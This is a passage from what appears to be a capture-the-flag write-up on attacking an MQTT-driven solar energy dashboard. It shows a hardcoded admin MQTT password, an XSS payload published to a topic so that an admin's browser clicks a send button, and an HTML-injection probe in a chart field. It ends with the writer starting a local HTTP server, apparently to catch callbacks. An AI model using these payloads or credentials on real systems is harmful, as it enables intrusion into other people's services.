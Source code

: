 ```javascript
                }
            }
            document.getElementById('send-record-id').onclick = sendrecord;
...
```

This function creates a base64 image of the bar chart and, along with other data, sends it as a JSON to the `record` topic when the user clicks the `#send-record-id` button.

We also found another accessible path via a link: `/records/`. This path is not accessible to the `calvin` user, as he doesn't have the admin role.

We subscribed to all topics (`#`) using the credentials `admin:tJH8HvwVwC57BR6CEyg5`, and sent the following JSON to the `data` topic:

```json
{
  "solarEnergy": "<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />",
  "consumedEnergy": 15
}
```

We received the following JSON in the `record` topic:

```json
{"time":"2024-09-02T22:43:52.187Z","user":{"name":"JulianAdm","role":"admin"},"solar":"<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />","consumed":15,"grid":null,"chart":"data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAZAAAADICAYAAADGFbfiAAAgAElEQVR4Xu2dC3QV1b3GgYQYoAUSsMqjRVp5WAsWHwgVV6Mi2tt7aanGFwYDiAnPolXx ... BIgf8D+epLMhrp9ocAAAAASUVORK5CYII="}
```

The messages sent to the `data` topic with the XSS are deleted when new data is received every 2 seconds.

We tried publishing data to the `record` topic using the `admin` user of the MQTT service and had no issues doing so. Thus, we attempted to insert another XSS into the `chart` parameter of the JSON, assuming it would be embedded in the `src` attribute of an HTML `<img>` tag.

```json
{
  "time": "2024-09-02T23:25:15.855Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 211,
  "consumed": 168,
  "grid": -43,
  "chart": "\"><h1>XSS</h1></"
}
```
On the other hand, we attempted to access the page hosted at `/records/`. It seems related to this new topic. We restarted our HTTP service on port 80 on our machine:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
